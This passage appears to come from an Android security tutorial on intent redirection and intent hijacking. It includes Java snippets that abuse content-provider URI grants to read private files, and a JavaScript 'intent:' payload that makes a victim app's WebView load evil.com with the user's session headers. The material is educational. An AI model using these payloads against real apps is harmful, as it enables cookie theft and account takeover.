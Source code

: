 Now, the victim’s `AuthWebViewActivity` loads `http://evil.com/` with the user’s session headers → leading to **cookie theft, account hijacking, or XSS attacks** inside the WebView.
##### Extended Attacks
This vulnerability doesn’t stop at Activities. If the app has **non-exported ContentProviders** with `grantUriPermissions="true"`, the attacker can abuse the proxy to gain **read/write access** to private files (like databases, cached images, or user documents). Example:
```java
extra.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
extra.setData(Uri.parse("content://com.victim.provider/image/1"));
```

The attacker’s app could then query and steal this data.
##### Remote Exploits

In some cases, apps convert URLs into Intents using:

```java
startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME));
```
If the app loads untrusted content into a WebView, an attacker can simply trick the user into clicking a malicious link like:

```javascript
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fevil.com;end";
```

This means exploitation could happen **remotely** (through a malicious website, phishing email, or MitM attack), without installing any app.

##### 19.2 Intent Hijacking
In Android, apps use **intents** to send messages or data either to their own components or to other apps. If an app uses an **implicit intent**, it only specifies _what action_ it wants (like `ACTION_SEND` to share data) but does not specify _which app_ should handle it.
###### Explicit vs Implicit
###### Explicit Intent (Safe)

You say _“Send this to John at 123 Main Street”_.

```
Intent intent = new Intent();
intent.setClassName("com.myapp", "com.myapp.SecureActivity"); startActivity(intent);
```
Always goes to YOUR app’s `SecureActivity`.

###### Implicit Intent (Risky)

You say _“Send this to anyone who knows how to handle mail”_.
```
Intent intent = new Intent(Intent.ACTION_SEND); intent.setType("text/plain"); intent.putExtra(Intent.EXTRA_TEXT, "super_secret_token"); startActivity(intent);
```
``
Here `Intent.ACTION_SEND` literally means:   "I want to **send some data**. Please find any app on the phone that can send data."
That could be Gmail, WhatsApp, or… a malicious app pretending to be a “Share” app.
